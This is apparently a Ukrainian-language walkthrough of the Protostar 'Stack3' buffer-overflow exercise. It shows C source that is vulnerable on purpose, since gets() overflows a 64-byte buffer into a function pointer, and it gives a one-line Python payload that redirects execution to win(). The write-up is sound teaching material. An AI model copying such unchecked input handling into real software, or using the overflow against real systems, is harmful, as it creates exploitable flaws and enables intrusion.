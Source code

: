 # STACK3

Отже, ось код для Stack3:
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```
Спочатку нам потрібно з'ясувати, яка адреса функції win знаходиться в пам'яті, на щастя, objdump покаже це досить чітко.

objdump -x stack3 | grep win

![image](https://user-images.githubusercontent.com/47494881/147484203-9ef6796c-8144-4645-8e0d-77d8dce6d99e.png)

Тепер необхідно переписати зміну fp для цього зновштаки нам знадоюиться 64 байти сміття (64 'а'), а потім адрес функції win
```
(python -c "print 'a'*64 + '\x24\x84\x04\x08'";) | ./stack3
```
Результати:

![image](https://user-images.githubusercontent.com/47494881/147484764-08acca82-e1ed-44f2-90da-4c7b4172f9f7.png)

